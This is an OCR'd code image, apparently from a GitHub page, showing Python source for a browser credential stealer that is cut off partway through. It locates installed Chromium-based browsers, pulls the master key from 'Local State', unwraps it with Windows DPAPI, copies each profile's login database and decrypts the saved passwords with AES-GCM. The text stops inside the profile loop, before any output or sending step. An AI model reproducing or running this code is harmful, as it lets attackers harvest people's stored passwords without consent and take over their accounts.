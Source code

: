 ```python

def get_secret_key():
    try:
        with open( PATH_LSTATE, "r", encoding='utf-8') as f:
            local_state = f.read()
            local_state = json.loads(local_state)
        secret_key = base64.b64decode(local_state["os_crypt"]["encrypted_key"])
        #Remove suffix DPAPI
        secret_key = secret_key[5:]
        secret_key = win32crypt.CryptUnprotectData(secret_key, None, None, None, 0)[1]
        return secret_key
    except:
        return None

def decrypt_payload(cipher, payload):
    return cipher.decrypt(payload)

def generate_cipher(aes_key, iv):
    return AES.new(aes_key, AES.MODE_GCM, iv)

def decrypt_password(ciphertext, secret_key):
    try:
        iv = ciphertext[3:15]
        encrypted_password = ciphertext[15:-16]
        cipher = generate_cipher(secret_key, iv)
        decrypted_pass = decrypt_payload(cipher, encrypted_password)
        decrypted_pass = decrypted_pass.decode()  
        return decrypted_pass
    except:
        return ""

def get_db_connection(login_db):
    try:
        shutil.copy2(login_db, "Loginvault.db")
        return sqlite3.connect("Loginvault.db")
    except:
        return None

def installed_browsers():
    available = []
    for x in browsers.keys():
        if os.path.exists(browsers[x]):
            available.append(x)
    return available  

def getting_path(browser):
    path = browsers[browser]
    global PATH_LSTATE
    global PATH
    PATH_LSTATE = os.path.normpath(f"{path}\\Local State")
    PATH = os.path.normpath(f"{path}")

if __name__ == '__main__':
    try:
        Browsers = installed_browsers()
        for Browser in Browsers:
            getting_path(Browser)
            secret_key = get_secret_key()
            #Search user profile or default folder (this is where the encrypted login password is stored)
            folders = [element for element in os.listdir(PATH) if re.search("^Profile*|^Default$",element)!=None]
            for folder in folders:
```